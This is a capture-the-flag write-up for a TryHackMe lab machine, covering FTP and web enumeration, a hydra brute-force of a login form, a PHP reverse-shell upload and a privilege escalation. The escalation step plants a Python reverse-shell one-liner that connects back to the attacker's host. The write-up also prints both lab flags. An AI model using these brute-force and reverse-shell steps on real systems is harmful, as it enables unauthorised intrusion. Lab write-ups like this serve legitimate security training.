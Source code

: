# Tartarus

<img src="screenshots/1.jpg">

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  
  There we see a txt file and downloading it on our machine we get /sUp3r-s3cr3t directory. We will have a look at this directory later first we will further enumerate the machine.
  
  <img src="screenshots/ftpdirectory.png">
  
  <img src="screenshots/yougot.png">

 
 Checking the robots.txt file(a random guess) 
  
  <img src="screenshots/admin.png">
 
Entering into /admin-dir

  <img src="screenshots/admindir.png">
  
  Downloading the files using :
  
    wget http://10.10.13.146/admin-dir/credentials.txt
    wget http://10.10.13.146/admin-dir/userid
  
  Now entering into the super secret directory on the web server we see a login page.
  
  <img src="screenshots/login.png">
  
 Since, we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

   <img src="screenshots/hydra.png">

    After logging in we get into home.php where we can upload files. Uploading the script for reverse shell here. And starting the listener
    on the machine.

 <img src="screenshots/upload.png">
     
  Uploading the reverse shell php script on the page. 
  
    Download the script from here: http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

We need to find the uploads directory to run our script for that we run the directory scan. 
So we find the images directory with dirb and here is the upload folder open it and run the script.
Now we got our reverse shell.

<img src="screenshots/revshell.png">

  Going to home/d4rckh.  
  We get the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Your THM IP",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 
 
 And finally we have our root shell  
  
  <img src="screenshots/rootshell.png">

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
